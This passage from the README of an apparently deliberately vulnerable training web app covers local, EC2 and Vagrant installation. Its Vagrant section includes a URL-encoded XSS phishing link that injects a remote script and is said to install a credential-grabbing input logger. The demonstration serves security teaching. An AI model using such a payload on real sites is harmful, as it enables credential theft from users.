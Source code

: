 1. Install a 64bit [node.js](#nodejs-version-compatibility) on your
   Windows (or Linux) machine
2. Download `juice-shop-<version>_<node-version>_<os>_x64.zip` (or
   `.tgz`) attached to
   [latest release](https://github.com/bkimminich/juice-shop/releases/latest)
3. Unpack and run `npm start` in unpacked folder
4. Browse to <http://localhost:3000>

> Each packaged distribution includes some binaries for SQLite bound to
> the OS and node.js version which `npm install` was executed on.

### Amazon EC2 Instance

1. Setup an _Amazon Linux AMI_ instance
2. In _Step 3: Configure Instance Details_ unfold _Advanced Details_ and
   copy the script below into _User Data_
3. In _Step 6: Configure Security Group_ add a _Rule_ that opens port 80
   for HTTP
4. Launch instance
5. Browse to your instance's public DNS

```
#!/bin/bash
yum update -y
yum install -y docker
service docker start
docker pull bkimminich/juice-shop
docker run -d -p 80:3000 bkimminich/juice-shop
```

> Technically Amazon could view hacking activity on any EC2 instance as
> an attack on their AWS infrastructure! We highly discourage aggressive
> scanning or automated brute force attacks! You have been warned!

### Vagrant

1. Install [Vagrant](https://www.vagrantup.com/downloads.html) and
   [Virtualbox](https://www.virtualbox.org/wiki/Downloads)
2. Run `git clone https://github.com/bkimminich/juice-shop.git` (or
   clone [your own fork](https://github.com/bkimminich/juice-shop/fork)
   of the repository)
3. Run `cd vagrant && vagrant up`
4. Browse to [192.168.33.10](http://192.168.33.10)

> To show the possible impact of
> [XSS](https://www.owasp.org/index.php/Cross-site_Scripting_(XSS)),
> assume you received and (of course) clicked
> [this inconspicuous phishing link](http://192.168.33.10/#/search?q=%3Cscript%3Evar%20js%20%3Ddocument.createElement%28%22script%22%29;js.type%20%3D%20%22text%2Fjavascript%22;js.src%3D%22http:%2F%2F192.168.33.10%2Fshake.js%22;document.body.appendChild%28js%29;varhash%3Dwindow.location.hash;window.location.hash%3Dhash.substr%280,8%29;%3C%2Fscript%3Eapple)
> and login. Apart from the visual/audible effect, the attacker also
> installed [an input logger](http://192.168.33.10/logger.php) to grab
> credentials! This could easily run on a 3rd party server in real life!
>
> _This feature is only available when running a Vagrant box. A
> recording of the effect is available on Youtube:_
> [:tv:](https://www.youtube.com/watch?v=L7ZEMWRm7LA)
